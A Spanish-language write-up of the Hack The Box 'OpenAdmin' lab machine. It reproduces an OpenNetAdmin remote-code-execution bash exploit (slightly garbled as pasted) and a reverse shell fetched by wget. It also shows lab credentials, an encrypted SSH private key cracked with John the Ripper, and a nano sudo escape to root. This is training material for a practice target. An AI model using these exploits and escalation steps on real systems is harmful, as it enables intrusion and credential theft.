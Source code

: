 ```yaml
---
title: "HTB – OpenAdmin"
author: "Oscar Bravo"
header: 
  teaser: "/assets/images/post/2021/OpenAdmin.png"
categories:
  - WriteUp
tags:
  - HTB
  - Maquina
htb:
  status: true
  os: Linux
  developer: dmw0ng
  level: Fácil
  date: 4 enero 2020
  point: 20
---
```


## Enumeración

Al usar nmap utilizando nmap -p- –open -T5 -v -n 10.10.10.171 y luego con el comando nmap -sCV -p22,80 10.10.10.171 (si quieren guardar el nmap usar -oN <NOMBRE ARCHIVO>) , solo encontramos que está abierto el puerto 22 (SSH) y 80 (web).

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-20 15:01 BST
Nmap scan report for 10.10.10.171
Host is up (0.086s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| 256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_ 256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint: OS:SCAN(V=7.80%E=4%D=4/20%OT=22%CT=1%CU=38520%PV=Y%DS=2%DC=T%G=Y%TM=5E9DAB7
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=108%GCD=1%ISR=10C%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT ADDRESS
1 103.86 ms 10.10.14.1
2 104.25 ms 10.10.10.171

OS and Service detection performed. Please report any incorrect results at Nmap done: 1 IP address (1 host up) scanned in 41.01 seconds
```

Debido a esto se empieza a busca información con whatweb, en el código fuente de la página web, mientras se ejecuta la dirbuster para buscar paginas ocultas y poder acceder a ellas. Simultaneamente hacemos Fuzzing.

- Music
- Ona
- Artwork
- Marga
- Sierra

Al entrar a cada una de las webs vemos que ona es OpenNetAdmin de versión 18.1.1 buscando en las bases de datos de exploit encontramos un CVE de ejecución remota de código, por lo que se busca el exploit y se encuentra en https://www.exploit-db.com/exploits/47691

```
#!/bin/bash

URL="${1}" while true;do echo -n "$ "; read cmd url --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n done
```

## 1° Shell

Al archivo del exploite le damos permiso 744 y lo ejecutamos de la siguiente manera ./archivo.sh http://10.10.10.171/ona/login.php con esto nos abrirá una terminar con opciones reducidas y difícil de navegar dentro de la misma.

En caso de que querer una shell con opciones, simplemente subimos una shell-reverse para ejecutarla desde el navegador. Para ello ejecutamos python -m SimpleHTTPServer en nuestra terminal y desde la maquina victima bajamos el archivo de la shell revers con wget

Navegando con shell podemos ver que existe 2 usuarios jimmy y joanna, y los archivos de configuración de la web OpenNetAdmin, de acuerdo a la documentación de la web, todo archivo de configuración se encuentra en **local/config**, es acá donde se encuentra una password n1nj4W4rri0R! en database_settings.inc.php, normalmente reutilizan las contraseñas por lo que se intentará ingresar con los usuarios encontrados.

## 2° Shell

El password sirve para acceder vía ssh con el usuario jimmy, pero este usuario no posee la flag de user, por lo que se deberá ver cómo escalar los privilegios al segundo usuario joanna.

Investigando el **/var/www** encontramos que hay una página interna llamada internal es por ello que se revisa la configuración de los sitios en el apache **/etc/apache2**. Al investigar las configuraciones de apache se encontró que hay un sitio que se accede localmente al puerto 52846 /etc/apache2/sites-enabled/internal.conf

Revisando el código fuente de la página internal vemos el archivo main.php encontramos lo siguiente:

```
<?php
session_start();
if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Esto nos dice que nos mostrará el id_rsa del usuario joanna, existe dos formas obtener esta web
### Vía CURL

Para obtener el id_rsa se ejecuta el comando curl http://127.0.0.1:52846/main.php esto mostrar el id_rsa completo.

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
```
### Vía SSH TUNELING

Al revisar la web internal, nos damos cuenta que en index.php compara el pass con un hash ‘**00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1**′ en sha512, la cual al desencriptarla obtenemos que la clave es Revealed

Con esto generamos el tunel con el siguiente código desde la maquina atacante **ssh -L1234:127.0.0.1:52846 jimmy@10.10.10.171** esto hace el puerto 1234 de la maquina atacante se vincula con el puerto 52846 permitiendo ver la web

Usamos el usuario jimmy y la clave Revealed obtenidas anteriormente nos devuelve el id_rsa

## 3° SHELL (usuario)

Con el id_rsa se debe desencriptar con John the ripper para ello primero obtenemos el hash del id_rsa con **python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash** luego con ese hash ejecutamos John **john id_rsa.hash –wordlist=/usr/share/wordlists/rockyou.txt** y lo que obtenemos es la contraseña de id_rsa **bloodninjas** e ingresando con **ssh –i id_rsa joanna@10.10.10.171** y obtenemos la primera flag.

## 4° SHELL (root)

Dentro del equipo con el usuario joanna revisamos si tiene algún permiso como root, con el comando sudo -l y vemos que si lo tiene con /bin/nano en el archivo /opt/priv, debido a esto usamos GTFObins para revisar si hay escalada de privilegio con nano. Usando ^R^Xreset; sh 1>&0 2>&0 desde nano podemos escapar de él y obtener un sh de root, obteniendo la ultima flag.

![Racso](https://www.hackthebox.com/badge/image/159593)